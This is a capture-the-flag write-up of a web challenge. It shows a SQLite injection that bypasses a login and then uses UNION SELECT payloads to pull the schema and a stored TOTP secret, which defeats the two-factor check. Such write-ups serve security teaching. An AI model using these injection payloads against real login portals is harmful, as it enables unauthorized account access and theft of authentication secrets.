

# [Web] Touch Of The Paranoid

## Background

The description given for this challenge was:
```
We're happy to announce that we now support multi-factor authentication. Our login portal is now bulletproof and unhackable! Our first user mentioned something about Google Authenticator...

PS: No bruteforce is needed, you will be throttled if you try. 
```

<br/>

## Login Portal

<p align="center">
    <br/>
</p>

Upon visiting the provided link we are first greeted with a login portal. First instincts is to test the fields for any SQL injection vulnerability by entering quotes `"` in both of the fields.

And bingo! An error was thrown back to the DOM indicating that the portal uses SQLite3 and the fields are indeed vulnerable.

```
sqlite3.OperationalError: unrecognized token: "6b86b273ff34fce19d6b804eff5a3f5747ada4eaa22f1d49c01e52ddb7875b4b"
```

<br/>

Next, I tried entering `1" or 1=1--` into both fields and it seems that I have succesfully infiltrated into the admin account. However, we are still required to enter a 6 digit OTP in order to proceed.

<p align="center">
    <br/>
</p>

<br>

Seems like further digging of the database is required to gain access into the portal. A quick Google search for `"sqlite3 sql injection"` can get us some useful queries required for sniffing out the data. I first start with sniffing out the table name:

`
1" UNION SELECT tbl_name FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_sequence' --
`

Which resulted in:
```
Hello users! Please enter the 6 digit code from your authentication app
```

<br>

Looks like our table name is `users`. Next we try to get the create table statement for table `users` which will show us all the columns.

`
1" UNION SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='users' --
`

Which resulted in:
```
Hello CREATE TABLE `users` (`username` TEXT, `password` TEXT, `secret` TEXT, `id` INTEGER PRIMARY KEY AUTOINCREMENT)! Please enter the 6 digit code from your authentication app
```

<br>

Next we will try to extract the secret field from the users table:

`
1" UNION SELECT secret FROM users --
`

Which resulted in:
```
Hello 6C7GGJVTU4NSELOZ! Please enter the 6 digit code from your authentication app
```

<br>

Nice, we have now gotten hold of our OTP secret key `6C7GGJVTU4NSELOZ`. We can now key this key in Google Authenticator or any other MFA apps to generate our OTP.

Now, we have to login back to admin with `1" or 1=1--` and key in the newly generated OTP into the field and viola! We got our flag!

<p align="center">
    <br/>
</p>

```
CTFSG{d0nt_b3_afrA1d_oF_n33dLes}
```
